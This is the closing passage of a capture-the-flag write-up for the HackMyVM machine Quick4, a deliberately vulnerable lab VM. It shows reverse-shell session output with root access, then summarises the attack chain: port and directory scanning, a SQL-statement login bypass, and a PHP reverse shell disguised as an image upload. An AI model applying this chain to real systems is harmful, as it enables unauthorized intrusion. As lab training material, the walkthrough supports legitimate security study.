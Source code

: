 ```bash
10.0.2.42: inverse host lookup failed: Host name lookup failure
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.42] 54050
bash: cannot set terminal process group (1315): Inappropriate ioctl for device
bash: no job control in this shell
root@quick4:/var/www/html# 

```
Since we have a reverse shell we should check who we are and on what machine we are working.
```bash
root@quick4:/var/www/html# whoami
whoami
root
root@quick4:/var/www/html# hostname
hostname
quick4
root@quick4:/var/www/html# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:aa:84:13 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.42/24 metric 100 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 329sec preferred_lft 329sec
    inet6 fe80::a00:27ff:feaa:8413/64 scope link 
       valid_lft forever preferred_lft forever
3: enp0s8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:c9:ac:f6 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.43/24 metric 100 brd 10.0.2.255 scope global dynamic enp0s8
       valid_lft 329sec preferred_lft 329sec
    inet6 fe80::a00:27ff:fec9:acf6/64 scope link 
       valid_lft forever preferred_lft forever
root@quick4:/var/www/html# 

```
We are root on Quick4 we only have to capture the root flag.

![image](/assets/img/WriteUp/HackMyVM/Quick4/Pasted image 20240212213753.png){: width="700" height="400" }

## Conclusion

In this writeup, we demonstrated the process of compromising the Quick4 machine on Hack My VM. We started by performing an Nmap scan to identify open ports and services. We found that ports 22 and 80 were open, with SSH and Apache HTTP Server running, respectively.

We then used Dirb to enumerate directories and found the "employee" directory. We have successfully bypassed the authentication page with a simple SQL statement. Next we were able to uploaded a PHP reverse shell disguised as an image.
